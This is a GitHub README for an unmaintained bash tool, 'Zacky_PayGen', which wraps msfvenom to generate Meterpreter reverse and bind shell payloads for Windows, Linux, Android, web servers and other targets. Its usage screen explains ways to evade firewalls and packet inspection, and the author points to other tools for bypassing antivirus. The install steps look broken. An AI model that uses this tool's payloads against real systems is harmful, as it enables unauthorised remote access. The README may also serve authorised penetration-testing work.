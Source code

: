 ### NOT MANTAINED

# Zacky_PayGen
A simple and usage payload generator tool for educational purpose.


A **quick** way to generate various "basic" Meterpreter payloads via `msfvenom` (part of the Metasploit framework).

<p align="center">
  <img src="https://img.fruugo.com/product/3/64/175799643_max.jpg" alt="Zacky_logo"/>
</p>


- - -


## About

MSFvenom Payload Creator to generate multiple types of payload.

**Fully automating**
The rest is to make the user's life as **easy as possible** 
**Note** 
If you want to bypass Antivirus see for more of my tools :)

- - -


## Install

+ Designed for **Kali Linux v2.x/Rolling** & **Metasploit v4.11+**.

```
$ sudo git clone https://github.com/Gesus-del/Zacky_PayGen/edit/Zacky_PayGen
$ chmod +x /usr/local/bin/Zacky_PayGen
```
### Kali-Linux

```
$ sudo bash Zacky_PayGen.sh                  
 [*] MSFvenom Payload Creator (Zacky_PayGen v0.1)

 [i] Missing TYPE or BATCH/LOOP mode

 Zacky_PayGen.sh <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>) (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>) (<VERBOSE>)
   Example: Zacky_PayGen.sh windows 192.168.1.10        # Windows & manual IP.
            Zacky_PayGen.sh elf bind eth0 4444          # Linux, eth0's IP & manual port.
            Zacky_PayGen.sh stageless cmd py https      # Python, stageless command prompt.
            Zacky_PayGen.sh verbose loop eth1           # A payload for every type, using eth1's IP.
            Zacky_PayGen.sh msf batch wan               # All possible Meterpreter payloads, using WAN IP.
            Zacky_PayGen.sh help verbose                # Help screen, with even more information.

 <TYPE>:
   + APK
   + ASP
   + ASPX
   + Bash [.sh]
   + Java [.jsp]
   + Linux [.elf]
   + OSX [.macho]
   + Perl [.pl]
   + PHP
   + Powershell [.ps1]
   + Python [.py]
   + Tomcat [.war]
   + Windows [.exe // .exe-service // .dll]

 Rather than putting <DOMAIN/IP>, you can do a interface and Zacky_PayGen will detect that IP address.
 Missing <DOMAIN/IP> will default to the IP menu.

 Missing <PORT> will default to 443.

 <CMD> is a standard/native command prompt/terminal to interactive with.
 <MSF> is a custom cross platform shell, gaining the full power of Metasploit.
 Missing <CMD/MSF> will default to <MSF> where possible.

 <BIND> opens a port on the target side, and the attacker connects to them. Commonly blocked with ingress firewalls rules on the target.
 <REVERSE> makes the target connect back to the attacker. The attacker needs an open port. Blocked with engress firewalls rules on the target.
 Missing <BIND/REVERSE> will default to <REVERSE>.

 <STAGED> splits the payload into parts, making it smaller but dependent on Metasploit.
 <STAGELESS> is the complete standalone payload. More 'stable' than <STAGED>.
 Missing <STAGED/STAGELESS> will default to <STAGED> where possible.

 <TCP> is the standard method to connecting back. This is the most compatible with TYPES as its RAW. Can be easily detected on IDSs.
 <HTTP> makes the communication appear to be HTTP traffic (unencrypted). Helpful for packet inspection, which limit port access on protocol - e.g. TCP 80.
 <HTTPS> makes the communication appear to be (encrypted) HTTP traffic using as SSL. Helpful for packet inspection, which limit port access on protocol - e.g. TCP 443.
 <FIND_PORT> will attempt every port on the target machine, to find a way out. Useful with stick ingress/engress firewall rules. Will switch to 'allports' based on <TYPE>.
 Missing <TCP/HTTP/HTTPS/FIND_PORT> will default to <TCP>.

 <BATCH> will generate as many combinations as possible: <TYPE>, <CMD + MSF>, <BIND + REVERSE>, <STAGED + STAGELESS> & <TCP + HTTP + HTTPS + FIND_PORT> 
 <LOOP> will just create one of each <TYPE>.

 <VERBOSE> will display more information.
$
```
